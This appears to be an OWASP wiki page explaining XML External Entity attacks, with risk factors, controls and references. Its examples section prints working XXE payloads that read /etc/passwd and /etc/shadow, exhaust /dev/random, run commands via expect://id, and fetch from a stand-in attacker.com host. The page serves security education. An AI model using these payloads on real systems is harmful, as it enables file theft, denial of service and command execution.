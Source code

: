 Last revision (mm/dd/yy): **//**

[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type
    declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection
(OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

`'''`

<?xml version="1.0" encoding="ISO-8859-1"?>

'''

*`'``   ``<!DOCTYPE``   ``foo``   ``[``   ``<!ELEMENT``   ``foo``
 ``ANY``   ``>`*`'`
*`'``   ``<!ENTITY``   ``xxe``   ``SYSTEM``   ``"expect://id"``
 ``>]>`*`'`
` `*`'``   `<creds>*`'`
` `*`'``   `<user>`&xxe;`</user>*`'`
` `*`'``   `<pass>`mypass`</pass>*`'`
` `*`'``   `</creds>*`'`

### Disclosing /etc/passwd or other targeted files

`''' `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/passwd>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/shadow>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///c:/boot.ini>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>`<foo>`&xxe;`</foo>`'''`

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE)
Prevention Cheat
Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink").

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat
    Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink")
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks -
    A Compendium of Known
    Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec
    USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity
    Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type
    Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at
    OWASP AppSec
    Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE
    vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in
    French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in
    .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on
    XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")